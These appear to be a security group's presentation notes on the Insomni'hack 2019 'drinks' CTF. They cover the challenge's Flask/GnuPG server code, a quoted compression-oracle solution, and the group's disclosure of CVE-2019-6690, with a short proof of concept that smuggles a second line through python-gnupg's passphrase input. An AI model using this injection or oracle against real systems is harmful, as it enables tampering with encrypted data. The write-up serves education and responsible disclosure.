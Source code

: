 * We played "drinks" CTF at Hackeriet in Jan 2019 

From Insomni'hack teaser 2019

https://ctftime.org/task/7458

#+BEGIN_SRC text
Use this API to gift drink vouchers to yourself or your friends!

http://drinks.teaser.insomnihack.ch

http://146.148.126.185 <- 2nd instance if the first one is too slow

Vouchers are encrypted and you can only redeem them if you know the passphrase.

Because it is important to stay hydrated, here is the passphrase for water: WATER_2019.

Beers are for l33t h4x0rs only.
#+END_SRC

* drinks: server.py
#+BEGIN_SRC python
from flask import Flask,request,abort
import gnupg
import time
import json
app = Flask(__name__)
gpg = gnupg.GPG(gnupghome="/tmp/gpg", verbose=True, )

couponCodes = {
    "water": "WATER_2019",
    "beer" : "█████████████████████████████████" # REDACTED
}

@app.route("/generateEncryptedVoucher", methods=['POST'])
def generateEncryptedVoucher():

    content = request.json
    (recipientName,drink) = (content['recipientName'],content['drink'])

    encryptedVoucher = str(gpg.encrypt(
        "%s||%s" % (recipientName,couponCodes[drink]),
        recipients  = None,
        symmetric   = True,
        passphrase  = couponCodes[drink]
    )).replace("PGP MESSAGE","DRINK VOUCHER")
    return encryptedVoucher

@app.route("/redeemEncryptedVoucher", methods=['POST'])
def redeemEncryptedVoucher():

    content = request.json
    (encryptedVoucher,passphrase) = (content['encryptedVoucher'],content['passphrase'])

    decryptedVoucher = str(gpg.decrypt(
        encryptedVoucher.replace("DRINK VOUCHER","PGP MESSAGE"),
        passphrase = passphrase
    ))

    print(json.dumps(decryptedVoucher))

    (recipientName,couponCode) = decryptedVoucher.split("||")

    if couponCode == couponCodes["water"]:
        return "Here is some fresh water for %s\n" % recipientName
    elif couponCode == couponCodes["beer"]:
        return "Congrats %s! The flag is INS{%s}\n" % (recipientName, couponCode)
    else:
        abort(500)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
#+END_SRC

* drinks: coupon codes
#+BEGIN_SRC python
couponCodes = {
    "water": "WATER_2019",
    "beer" : "█████████████████████████████████" # REDACTED
}
#+END_SRC

* drinks: issuing voucher

#+BEGIN_SRC python
@app.route("/generateEncryptedVoucher", methods=['POST'])
def generateEncryptedVoucher():

    content = request.json
    (recipientName,drink) = (content['recipientName'],content['drink'])

    encryptedVoucher = str(gpg.encrypt(
        "%s||%s" % (recipientName,couponCodes[drink]),
        recipients  = None,
        symmetric   = True,
        passphrase  = couponCodes[drink]
    )).replace("PGP MESSAGE","DRINK VOUCHER")
    return encryptedVoucher
#+END_SRC

* drinks: claiming voucher

#+BEGIN_SRC python
@app.route("/redeemEncryptedVoucher", methods=['POST'])
def redeemEncryptedVoucher():

    content = request.json
    (encryptedVoucher,passphrase) = (content['encryptedVoucher'],content['passphrase'])

    decryptedVoucher = str(gpg.decrypt(
        encryptedVoucher.replace("DRINK VOUCHER","PGP MESSAGE"),
        passphrase = passphrase
    ))

    print(json.dumps(decryptedVoucher))

    (recipientName,couponCode) = decryptedVoucher.split("||")

    if couponCode == couponCodes["water"]:
        return "Here is some fresh water for %s\n" % recipientName
    elif couponCode == couponCodes["beer"]:
        return "Congrats %s! The flag is INS{%s}\n" % (recipientName, couponCode)
    else:
        abort(500)


#+END_SRC

* We didn't succeed in getting the flag.
From GNU-E-Ducks writeup: https://ctftime.org/writeup/12927

  ".. pgp compresses the message before encrypting it. This was the eureka
   moment, and I realized the if the recipientName we supply to
   generateEncryptedVoucher was similar to the coupon code for the drink, the
   length of the drink voucher would be less than if they were disimilar. Thus
   we have an oracle which leaks information about the rest of the plaintext!"

  For example

  #+BEGIN_SRC python
    len(generateEncryptedVoucher('', 'water')) == 179
  #+END_SRC

      and
  #+BEGIN_SRC python
    len(generateEncryptedVoucher('WATER_2019', 'water')) == 179
  #+END_SRC  

  Since our plaintext is WATER_2019||WATER_2019, the common strings are compressed.

  The solution is to start with an prefix and check the length of ciphertext of
  the prefix appended with each character in the alphabet. If the length is less
  than the others, it is considered a candidate in the next round. In practice,
  some manual intervention is required to eliminate unlikely prefixes, such as
  G1MME________ in favor of more likely prefixes such as G1MME_B33R_PL. For
  example, I left the algorithm to run and this is what it decided the flag was:
  G1MME_B33R_PLZ_1MME_B33RY_TH1RSTY, even though the correct flag is
  G1MME_B33R_PLZ_1M_S0_V3RY_TH1RSTY

* But we found something else: gpg --symmetric --passphrase-fd 0
The code uses python-gnupg, which use call gpg on the command line. Since we can
supply a passphrase as input, we tried to send in some control chars like \n

To supply the passphrase to gpg for decryption, python-gnupg sends it as the
first line on stdin to the gpg process. And there is no validation of allowed
characters in the passphrase.

All interactions with gpg happens over a system shell, for the gpg libraries in
many languages.

python-gnupg 0.4.3:
#+BEGIN_SRC python
cmd = [self.gpgbinary, '--status-fd', '2', '--no-tty', '--no-verbose', ... ]

result = Popen(cmd, shell=False, stdin=PIPE, stdout=PIPE, stderr=PIPE, startupinfo=si)
#+END_SRC

https://bitbucket.org/vinay.sajip/python-gnupg/src/e0f2692d6539aca706b63dba22d900d2c70d59f8/gnupg.py#lines-885

* normal usage: encrypt
#+BEGIN_SRC shell
echo -e "passphrase\nMY_SECRET_STRING" | \
  gpg --symmetric  --batch --pinentry-mode loopback --passphrase-fd 0 | \
  > /tmp/encrypted.gpg
#+END_SRC

* normal usage: decrypt
#+BEGIN_SRC shell
echo -e "passphrase\n$(cat /tmp/encrypted.gpg)" | \
  gpg --decrypt --batch --pinentry-mode loopback --passphrase-fd 0
#+END_SRC

* PoC
#+BEGIN_SRC python 
  import gnupg, sys

  def encrypt_data(password):
      return str(gpg.encrypt("expected message", passphrase=password, 
                             symmetric=True, recipients=False))

  gpg = gnupg.GPG(gnupghome="/tmp/gpg")
  in_password = sys.stdin.read()

  print(encrypt_data(in_password))
#+END_SRC

#+BEGIN_SRC shell :results output
echo -e "p4ssw0rd\n!MALICIOUS MESSAGE!" \
    | ./vulnerable.py > /tmp/msg.gpg

gpg -d --pinentry-mode loopback --passphrase p4ssw0rd /tmp/msg.gpg
#+END_SRC

* CVE-2019-6690

https://blog.hackeriet.no/cve-2019-6690-python-gnupg-vulnerability/

Thx to the python-gnupg maintainer (@vsajip) for releasing a fixed version very
fast. (2 days)

** 2019-01-19: Discovered vuln in 0.4.3
** 2019-01-22: Maintainer notified
** 2019-01-24: Disclosed, maintainer releases0.4.4


* python-gnupg: distribution patch status

 |-----------------+------------+--------------------------
 | distro          |    patched | version                
 |-----------------+------------+--------------------------
 | NixOS           | 2019-01-25 | 0.4.4                  
 | SUSE: Leap      | 2019-02-07 | 0.4.4-lp150.2.6.1      
 | Debian: Jessie  | 2019-02-14 | 0.3.6-1+deb8u1         
 | Mageia          | 2019-03-07 | 0.4.4-1.mga6           
 | Ubuntu: Bionic  | 2019-04-30 | 0.4.1-1ubuntu1.18.04.1 
 | Debian: Stretch |  not fixed | not fixed  
 | Gentoo          |          ? | ? 
 |-----------------+------------+--------------------------

https://advisories.mageia.org/MGASA-2019-0105.html
https://security-tracker.debian.org/tracker/CVE-2019-6690
https://www.suse.com/security/cve/CVE-2019-6690/
https://people.canonical.com/~ubuntu-security/cve/2019/CVE-2019-6690.html





